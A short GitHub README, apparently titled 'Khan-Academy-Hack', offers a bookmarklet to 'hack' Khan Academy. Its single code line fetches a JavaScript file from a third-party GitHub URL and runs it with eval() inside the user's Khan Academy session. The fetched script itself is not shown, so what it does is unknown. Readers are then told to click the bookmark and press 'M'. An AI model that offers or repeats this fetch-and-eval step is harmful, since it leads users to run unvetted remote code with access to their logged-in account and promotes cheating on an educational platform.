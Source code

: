 # Khan-Academy-Hack
Hack khan academy with this simple script!
# CREDITS
All of this code is owned by @beforeblazergithub
# How to hack
fetch("https://raw.githubusercontent.com/beforeblazergithub/hacks/main/khan.js") .then((res) => res.text() .then((t) => eval(t)))
<br>
<br>
Copy the code above into a bookmark
<br>
<br>
On khan academy click the bookmark
<br>
<br>
Type “M” on your keyboard
<br>
<br>
You hacked Khan Academy!
